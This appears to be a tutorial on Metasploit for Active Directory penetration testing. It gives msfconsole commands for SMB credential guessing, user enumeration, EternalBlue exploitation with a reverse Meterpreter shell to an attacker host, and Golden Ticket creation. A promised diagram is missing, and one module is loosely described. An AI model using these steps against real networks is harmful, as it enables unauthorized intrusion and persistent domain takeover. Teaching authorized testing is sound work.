

# Metasploit Tools for Active Directory Penetration Testing

Metasploit is a powerful framework for penetration testing, and it includes numerous tools and modules specifically designed for testing Active Directory (AD) environments. This guide provides a comprehensive overview and instructions for using Metasploit in AD penetration tests.

## Introduction to Active Directory Penetration Testing with Metasploit

Active Directory is a critical component of many enterprise environments, managing user authentication and authorization. Penetration testing in AD environments helps identify vulnerabilities that could be exploited to gain unauthorized access or escalate privileges.

Metasploit offers a range of modules under the `auxiliary`, `exploit`, and `post` categories to assist in various stages of AD penetration testing, from enumeration to exploitation and post-exploitation.

## Key Metasploit Modules for AD Testing

Below is a table summarizing some key Metasploit modules useful for Active Directory penetration testing:

| **Module Type**      | **Module Name**                              | **Description**                                                                 |
|----------------------|----------------------------------------------|---------------------------------------------------------------------------------|
| Auxiliary            | `auxiliary/scanner/smb/smb_login`           | Tests credentials against SMB shares to identify valid user accounts.          |
| Auxiliary            | `auxiliary/admin/smb/ms17_010_command`      | Checks for the MS17-010 vulnerability (EternalBlue) in SMB.                    |
| Exploit              | `exploit/windows/smb/ms17_010_eternalblue`  | Exploits the MS17-010 vulnerability to gain a shell on the target system.      |
| Post                 | `post/windows/gather/enum_ad_users`         | Enumerates Active Directory users after gaining access to a system.            |
| Post                 | `post/windows/escalate/golden_ticket`       | Creates a Kerberos Golden Ticket for persistent access to the AD environment.  |

## Workflow for AD Penetration Testing with Metasploit

Here’s a high-level workflow for conducting an AD penetration test using Metasploit, illustrated with a Mermaid diagram:

### Steps in Detail

1. **Initial Access**: Use modules like `smb_login` to test stolen or weak credentials.
   ```bash
   use auxiliary/scanner/smb/smb_login
   set SMBUser username
   set SMBPass password
   set RHOSTS target_ip
   run
   ```

2. **Enumeration**: Gather information about the AD environment, such as users, groups, and computers.
   ```bash
   use post/windows/gather/enum_ad_users
   set SESSION session_id
   run
   ```

3. **Vulnerability Scanning**: Check for known vulnerabilities like MS17-010.
   ```bash
   use auxiliary/admin/smb/ms17_010_command
   set RHOST target_ip
   run
   ```

4. **Exploitation**: Exploit identified vulnerabilities to gain access.
   ```bash
   use exploit/windows/smb/ms17_010_eternalblue
   set RHOST target_ip
   set PAYLOAD windows/x64/meterpreter/reverse_tcp
   set LHOST attacker_ip
   run
   ```

5. **Post-Exploitation**: Harvest credentials or create Kerberos tickets for further access.
   ```bash
   use post/windows/escalate/golden_ticket
   set DOMAIN domain_name
   set USER krbtgt
   set SID domain_sid
   run
   ```

## Conclusion

Metasploit provides a robust set of tools for Active Directory penetration testing. By following a structured approach—enumeration, exploitation, and post-exploitation—you can effectively identify and mitigate security weaknesses in AD environments. Always ensure proper authorization and adhere to ethical guidelines during testing.

